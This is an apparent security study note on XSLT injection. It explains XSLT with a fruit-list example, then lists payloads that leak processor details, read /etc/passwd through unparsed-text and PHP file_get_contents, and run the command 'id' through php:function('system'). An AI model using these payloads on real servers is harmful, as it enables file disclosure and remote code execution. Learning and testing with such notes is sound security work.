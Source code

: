 # XSLT Injection
- eXtensible Stylesheet Language Transformation (XSLT) is a language enabling the transformation of XML documents. For instance, it can select specific nodes from an XML document and change the XML structure.


- XSLT can be used to define a data format which is subsequently enriched with data from the XML document.
- XSLT data is structured similarly to XML. However, it contains XSL elements within nodes prefixed with the `xsl-prefix`. 
- The following are some commonly used XSL elements:
    - `<xsl:template>`: This element indicates an XSL template. It can contain a `match` attribute that contains a path in the XML document that the template applies to
    - `<xsl:value-of>`: This element extracts the value of the XML node specified in the `select` attribute
    - `<xsl:for-each>`: This element enables looping over all XML nodes specified in the `select` attribute

```xml
<?xml version="1.0" encoding="UTF-8"?>
<fruits>
    <fruit>
        <name>Apple</name>
        <color>Red</color>
        <size>Medium</size>
    </fruit>
    <fruit>
        <name>Banana</name>
        <color>Yellow</color>
        <size>Medium</size>
    </fruit>
    <fruit>
        <name>Strawberry</name>
        <color>Red</color>
        <size>Small</size>
    </fruit>
</fruits>
```
```xslt
<?xml version="1.0"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
	<xsl:template match="/fruits">
		Here are all the fruits:
		<xsl:for-each select="fruit">
			<xsl:value-of select="name"/> (<xsl:value-of select="color"/>)
		</xsl:for-each>
	</xsl:template>
</xsl:stylesheet>
```
- Identifying XSLT Injection: Inserting `<`
- **Exploiting**
    - Information Disclosure
    ```xml
    Version: <xsl:value-of select="system-property('xsl:version')" />
    <br/>
    Vendor: <xsl:value-of select="system-property('xsl:vendor')" />
    <br/>
    Vendor URL: <xsl:value-of select="system-property('xsl:vendor-url')" />
    <br/>
    Product Name: <xsl:value-of select="system-property('xsl:product-name')" />
    <br/>
    Product Version: <xsl:value-of select="system-property('xsl:product-version')" />
    ```
    - Local File Inclusion (LFI)
    ```xml
    <xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')" />
    ```
    If the XSLT library is configured to support PHP functions, we can call the PHP function file_get_contents using the following XSLT element:
    ```xml
    <xsl:value-of select="php:function('file_get_contents','/etc/passwd')" />
    ```
    - Remote Code Execution (RCE)
    ```xml
    <xsl:value-of select="php:function('system','id')" />
    ```

## Resources
- [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSLT%20Injection)
